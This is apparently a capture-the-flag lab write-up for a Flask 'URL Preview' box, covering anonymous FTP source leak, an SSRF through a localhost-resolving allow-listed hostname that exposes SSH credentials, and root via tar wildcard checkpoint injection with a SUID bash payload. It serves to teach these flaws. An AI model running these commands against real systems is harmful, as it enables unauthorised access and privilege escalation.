# Operation Coldstart

**Target:** Volt Labs — an internal "URL Preview" staging tool.
---

## 1. Reconnaissance

### Nmap scan

```bash
nmap -sV -sC <target_ip>
```

```
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   2 ftp      ftp          4096 May 09 23:14 pub
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
80/tcp open  http    gunicorn
|_http-title: URL Preview - Volt Labs
```

Two things stand out immediately:

- **Anonymous FTP is enabled**, with a `pub` directory sitting right there in the scan output — an easy first stop.
- The web app runs on **gunicorn**, not Apache/Nginx — a strong signal this is a Python (Flask) application rather than PHP, which changes what kind of bugs to expect.

### Browsing the site



A simple internal tool: paste a URL, get a preview of its contents. Nothing else visible from the homepage alone.

---

## 2. Anonymous FTP — Pulling the App's Own Source Code

```bash
ftp <target_ip>
```

```
Name (10.113.141.68:root): anonymous
230 Login successful.
```



Inside `pub/` sits a single file:

```
ftp> cd pub
ftp> ls
-rw-r--r--   1 ftp      ftp          2446 May 09 23:14 backup.tar.gz
ftp> get backup.tar.gz
```



```bash
tar -xzvf backup.tar.gz
```

```
voltlabs-preview/
voltlabs-preview/requirements.txt
voltlabs-preview/README.md
voltlabs-preview/app.py
```



```bash
cat voltlabs-preview/README.md
cat voltlabs-preview/requirements.txt
```

```
# Volt Labs URL Preview
Internal staging tool. Run with `gunicorn -b 0.0.0.0:80 app:app`.
Admin routes are gated by source-IP check (localhost only).

flask
requests
gunicorn
```



This is the actual application's source code — dropped straight into an anonymously-readable FTP share. From here, the real work is just reading `app.py`.

---

## 3. Reading the Source — Finding the SSRF

```python
ALLOWED_HOSTS = {"kestrel.thm"}

@app.route("/preview")
def preview():
    target = request.args.get("url", "")
    ...
    # VULN: hostname allow-list is the only check. No scheme check, no path check,
    # no localhost-rebind protection - the SSRF is still abusable, but only
    # against the allowed hostname.
    host = (urlparse(target).hostname or "").lower()
    if host not in ALLOWED_HOSTS:
        return page("Preview Blocked", ...), 403
    r = requests.get(target, timeout=3)
    ...
```

```python
@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"
```

Two facts, read together, make this exploitable:

1. `/preview` will fetch **any URL** whose hostname is exactly `kestrel.thm` — no scheme restriction, no path restriction. The developer's comment even flags this ("the SSRF is still abusable") but assumed restricting it to one hostname was enough.
2. `kestrel.thm` resolves to `127.0.0.1` via `/etc/hosts` **on the server itself**.
3. `/admin/` routes only check `request.remote_addr.startswith("127.")` — trusting that "the request came from localhost" means "the request came from a human at the console." But if the *app itself* makes a request to `kestrel.thm`, that request originates from the server process — so `remote_addr` really is `127.0.0.1`, satisfying the check.

Confirming each piece before combining them:

```
http://<target_ip>/preview
```
```
Provide a ?url= parameter.
```


```
http://<target_ip>/admin/
```
```
Forbidden — You don't have the permission to access the requested resource.
```


```
http://<target_ip>/admin/notes
```
```
Forbidden
```


Both direct, external attempts are correctly blocked. The fix is to make the request *through* the app's own SSRF instead of directly.

---

## 4. Exploiting the SSRF to Reach `/admin/notes`

```
http://<target_ip>/preview?url=http://kestrel.thm/admin/notes
```

`kestrel.thm` passes the allow-list, and since it resolves to `127.0.0.1`, the resulting server-side fetch to `/admin/notes` arrives with `remote_addr = 127.0.0.1` — passing the IP check too.



```
=== INTERNAL ===
SSH access for staging:
  user: webdev
  pass: V0ltLabs#summer
- Mara
```

Real SSH credentials, leaked entirely through a same-origin trust assumption the app's own logic made about itself.

---

## 5. Initial Access — `user.txt`

```bash
ssh webdev@<target_ip>
# password: V0ltLabs#summer
```

```
webdev@coldstart:~$ id
uid=1001(webdev) gid=1001(webdev) groups=1001(webdev)
webdev@coldstart:~$ sudo -l
Sorry, user webdev may not run sudo on coldstart.
webdev@coldstart:~$ cat user.txt
THM{96dc7bd50d2fb98fcece01560788b5ab}
```



**🚩 Flag 1:** `THM{96dc7bd50d2fb98fcece01560788b5ab}`

---

## 6. Privilege Escalation — Ruling Out the Usual Suspects

Before chasing anything exotic, the standard privesc checklist was worked through methodically:

- **SUID binaries** (`find / -type f -perm -04000 -ls`): only standard system binaries (`sudo`, `passwd`, `su`, `ssh-keysign`, etc.) — nothing custom, nothing in an unusual location, nothing with a known simple GTFOBins misuse. A clean, boring result — valid to rule out.
- **File capabilities** (`getcap -r /`): only `ping`/`mtr-packet` with `cap_net_raw`, and standard snap confinement capabilities. Again nothing custom or exploitable.

Both dead ends confirmed the box wasn't going to hand over root through a misconfigured binary — time to check scheduled tasks instead.

### Cron jobs

```bash
cat /etc/crontab      # standard Ubuntu boilerplate, nothing interesting
ls -la /etc/cron.d/
```

```
-rw-r--r-- 1 root root  194 May  9 23:14 voltlabs-backup
```



`voltlabs-backup` stands out immediately against the default entries (`.placeholder`, `e2scrub_all`, `sysstat`).

```bash
cat /etc/cron.d/voltlabs-backup
```

```
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
```



---

## 7. Root via the `tar` Wildcard / Checkpoint Injection

**Why this is exploitable:** `tar` is being run **as root**, on a schedule, against a **wildcard (`*`)** inside a directory the current low-privilege user can write to. This is the well-known "tar wildcard injection" pattern: `tar` has flags like `--checkpoint` and `--checkpoint-action` that can be abused to execute arbitrary commands mid-archive — and if attacker-controlled filenames can be made to *look like* those flags, the shell's wildcard expansion will hand them to `tar` as real command-line options instead of as literal filenames.

```bash
ls -la /opt/backups
```

```
drwxrwx--- 2 webdev webdev 4096 May  9 23:14 .
-rw-r--r-- 1 webdev webdev   12 May  9 23:14 .keep
```



`webdev` owns this directory outright (`rwx` for owner and group) — full write access.

### Building the payload

```bash
cd /opt/backups
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > payload.sh
chmod +x payload.sh
```



**Why this specific payload:** copying `bash` to `/tmp/rootbash` and setting the SUID bit on *that copy* means the copy will always execute as whatever user owns the file. Since root's cron job is what performs the copy, `/tmp/rootbash` ends up owned by root with SUID set — giving a root shell on demand via `/tmp/rootbash -p`.

### Creating the filenames that trick `tar`

```bash
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh payload.sh"
```



When the cron job runs `tar czf /var/backups/uploads.tgz *`, the shell expands `*` into an alphabetically-sorted list of every file in the directory — including these two specially-named ones. `tar` then parses `--checkpoint=1` and `--checkpoint-action=exec=sh payload.sh` as real command-line flags (not filenames), telling it to run `sh payload.sh` at checkpoint 1 — i.e., almost immediately after the archive starts.

### Confirming it worked

```bash
# after waiting ~1 minute for the cron job to fire
ls -la /tmp/rootbash
```

```
-rwsr-sr-x 1 root root 1446024 Sep 13 13:09 /tmp/rootbash
```



### Getting the flag

```bash
/tmp/rootbash -p
cat /root/flag.txt
```

```
THM{e6ee84a483d67ade06936fcfd1433e8a}
```

**🚩 Flag 2:** `THM{e6ee84a483d67ade06936fcfd1433e8a}`

---

## Vulnerability Chain

| # | Vulnerability | Impact |
|---|---|---|
| V1 | Anonymous FTP exposing the application's own source archive | Full white-box view of the app — the SSRF and its exact allow-list were read directly from `app.py`, no black-box guessing required |
| V2 | SSRF via a hostname-only allow-list, combined with an IP-based trust check on admin routes | The app's own trusted hostname resolves to localhost, so the server unknowingly proxied a request to its own admin-only endpoint, leaking staging SSH credentials |
| V3 | Root cron job running `tar` with a wildcard against a directory writable by a low-privilege user | Classic `tar` checkpoint/wildcard injection → arbitrary command execution as root → SUID root shell |

**General lesson:** both major steps in this room came from a system trusting **where a request came from** rather than **what it actually was for**. The SSRF allow-list only checked the hostname string, not that the fetch might target the app's own privileged endpoints; the admin route only checked that traffic originated from localhost, not that it originated from a human. And the privesc came from root blindly trusting shell glob expansion inside a directory it didn't fully control. Trust boundaries drawn around *origin* instead of *intent* keep showing up as the root cause across these rooms.

---

*Tools used: Nmap, ftp, tar, SSH, manual source review.*
